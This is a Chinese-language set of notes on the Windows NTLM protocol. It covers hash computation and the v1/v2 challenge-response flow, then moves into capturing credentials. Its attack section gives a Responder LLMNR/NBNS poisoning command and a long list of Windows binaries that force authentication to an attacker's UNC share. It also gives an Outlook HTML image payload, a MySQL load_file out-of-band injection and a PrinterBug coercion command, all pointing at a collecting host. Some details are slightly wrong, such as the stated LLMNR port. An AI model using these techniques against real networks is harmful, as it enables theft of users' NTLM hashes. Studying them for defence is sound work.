 ```yaml
---
title: NTLM协议
tags: Windows
---
```


## 概念

### Hash

windows 内部只保存密码的 hash，并不保存明文密码，本机用户的hash保存在本地的 SAM 文件中，域内用户的 hash 保存在域控的 NTDS.dit 文件中。

windows导出密码时，密码格式通常为：

```
Username:group id:LM Hash:NTLM Hash:::
```

LM Hash 是 windows 早期用的加密算法，为了解决 LM 加密和身份验证中固有的安全弱点，1993年微软引进了 NTLM 协议。从 Windows7 和 Windows Server 2008 开始，默认情况下系统只会存储 NTLM Hash。

### 计算

+ 密码转十六进制格式
+ Unicode 编码
+ MD4

### 身份验证

NTLM 验证是一种 Challenge/Response 验证机制，由三种消息组成：协商、质询、验证

+ 客户端向服务端发送协商信息，主要包含客户端支持和服务器请求的功能列表
+ 服务器响应质询消息，包含服务器支持和同意的功能列表，以及服务器产生的 Challenge
+ 客户端接收到 Challenge 后，用用户 Hash 与 Challenge 进行加密运算得到 Response，将 Response、username、Challenge 作为验证信息发给服务器
+ 服务器拿到验证信息后，用 Challenge 和用户 Hash 进行加密得到 Response2，与验证信息中的 Response 进行比较
+ 如果用户 Hash 存储在域控中，用户服务器就会通过 NetLogon 协议联系域控，建立一个安全通道，将 协商、质询和验证消息都发给域控，这个过程也被称为 Pass Through Authenication 认证流程。域控使用 Challenge 和用户 Hash 进行加密得到 Response2， 与验证消息中的 Response 比较

### NTLM v1/v2

验证中的响应有六种，其中的 NTLM v1 是基于 NT 客户端发送的，包括 Windows 2000 和 XP， NTLM v2 是在 Windows NT Service Pack4 中引入的响应类型。

Challenge/Response验证机制里面type3 response里面包含Net-ntlm hash，NTLM v1响应和NTLMv2响应对应的就是Net-ntlm hash分为Net-ntlm hash v1和Net-ntlm hash v2。

#### NTLM v1

v1 是8位的 Challenge，它的加密算法是将16字节的 NTLM Hash 填充为21个字节，然后分成3组，作为3DES加密算法的3组密钥，加密 Server 发送来的 Challenge，三个密文值连接起来得到 Response。

Net-ntlm hash v1

```
username::hostname:LM response:NTLM response:challenge
```

#### NTLM v2

v2是16位的 Challenge，加密算法：

+ 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标（指定的域或服务器名称）拼在一起，使用 16字节 NTLM Hash 作为密钥，得到一个值
+ 构建 blob 信息
+ 用 NTLM v2 Hash 作为密钥，将 HMAC-MD5 消息认证代码算法加密来自质询的 Challenge 与 Blob 拼接在一起，得到一个16字节的 NTProofStr
+ 将 NTProofStr 与 Blob 拼接起来得到 Response

Net-ntlm hash v2

```
username::domain:challenge:HMAC-MD5:blob
```



## NTLM 请求

### LLMNR 和 NBNS

windows 解析域名顺序：

+ hosts
+ DNS
+ LLMNR
+ NBNS

#### LLNMR

LLMNR 是一种基于 DNS 数据包的格式，监听端口为 UDP：5535，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。LLNMR 采取的是广播的形式，当主机访问一个不存在的域名时，在本机 hosts 中没找到，DNS也无法解析，就会通过 LLMNR 协议进行广播，通过 Responder 进行响应，告知域名解析IP就可以进行类似 ARP 投毒的 LLMNR 投毒，进而获取主机的 NTLM v2 Hash。

#### NBNS

NBNS 全称为 NetBIOS Name Service。NetBIOS 解析过程为：

+ 检查本地 NetBIOS 缓存
+ 如果缓存中没有且配置了 WINS 服务器，就会向 WINS 服务器发出请求
+ 如果没有配置 WINS 服务器或 WINS 服务器无响应就会向当前子网域发送广播
+ 广播无回应就会读取本地的 lmhosts 文件（C:\Windows\System32\drivers\etc\）

在没有配置 WINS 服务器的情况下，NBNS 也会进行广播，所以也存在 NBNS 投毒。



### 使用 Responder 抓取NTLM v2 Hash

在kali下执行

```
responder -I eth0 -v
```

目标机器执行

```
net use \\123\1
```

网络上的用户需要访问没有 IP 或用户类型分析名的 share，就会触发到网络的 LLMNR 请求，responder 就会伪装成该访问的机器，从而获得 NTLM v2 Hash

![image-20210618105818213](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095806.png)



### 发起 NTLM 请求

#### 执行命令

```
 net.exe use \hostshare 
 attrib.exe \hostshare  
 bcdboot.exe \hostshare  
 bdeunlock.exe \hostshare  
 cacls.exe \hostshare  
 certreq.exe \hostshare #(noisy, pops an error dialog) 
 certutil.exe \hostshare  
 cipher.exe \hostshare  
 ClipUp.exe -l \hostshare  
 cmdl32.exe \hostshare  
 cmstp.exe /s \hostshare  
 colorcpl.exe \hostshare #(noisy, pops an error dialog)  
 comp.exe /N=0 \hostshare \hostshare  
 compact.exe \hostshare  
 control.exe \hostshare  
 convertvhd.exe -source \hostshare -destination \hostshare  
 Defrag.exe \hostshare  
 diskperf.exe \hostshare  
 dispdiag.exe -out \hostshare  
 doskey.exe /MACROFILE=\hostshare  
 esentutl.exe /k \hostshare  
 expand.exe \hostshare  
 extrac32.exe \hostshare  
 FileHistory.exe \hostshare #(noisy, pops a gui)  
 findstr.exe * \hostshare  
 fontview.exe \hostshare #(noisy, pops an error dialog)  
 fvenotify.exe \hostshare #(noisy, pops an access denied error)  
 FXSCOVER.exe \hostshare #(noisy, pops GUI)  
 hwrcomp.exe -check \hostshare  
 hwrreg.exe \hostshare  
 icacls.exe \hostshare   
 licensingdiag.exe -cab \hostshare  
 lodctr.exe \hostshare  
 lpksetup.exe /p \hostshare /s  
 makecab.exe \hostshare  
 msiexec.exe /update \hostshare /quiet  
 msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
 mspaint.exe \hostshare #(noisy, invalid path to png error)  
 msra.exe /openfile \hostshare #(noisy, error)  
 mstsc.exe \hostshare #(noisy, error)  
 netcfg.exe -l \hostshare -c p -i foo
```

#### outlook

邮件支持 html 格式，同时图片路径支持 UNC，所以可以构造 payload：

```
<img src="\\192.168.1.1\outlook">
```

#### Mysql

Mysql注入可以进行带外通信将数据带出来,前提是具备load_file权限，且没有secure_file_priv的限制，LOAD_FILE 也支持 UNC 路径

```
select load_file('\\\\192.168.1.1\\mysql');
```

#### 打印机

Windows 默认启用 MS-RPRN 协议，勇于打印机客户端和服务端的通信，任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。

```
ython printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```